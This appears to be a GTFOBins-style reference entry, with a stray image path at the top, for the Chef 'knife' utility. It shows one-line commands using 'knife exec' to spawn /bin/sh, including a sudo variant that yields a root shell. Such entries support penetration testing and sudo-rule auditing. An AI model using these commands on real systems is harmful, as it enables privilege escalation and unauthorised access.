 description: This is capable of running [`ruby`](/gtfobins/ruby/) code.
functions:
  shell:
    - code: |
        knife exec -E 'exec "/bin/sh"'
  sudo:
    - code: |
        sudo knife exec -E 'exec "/bin/sh"'
---
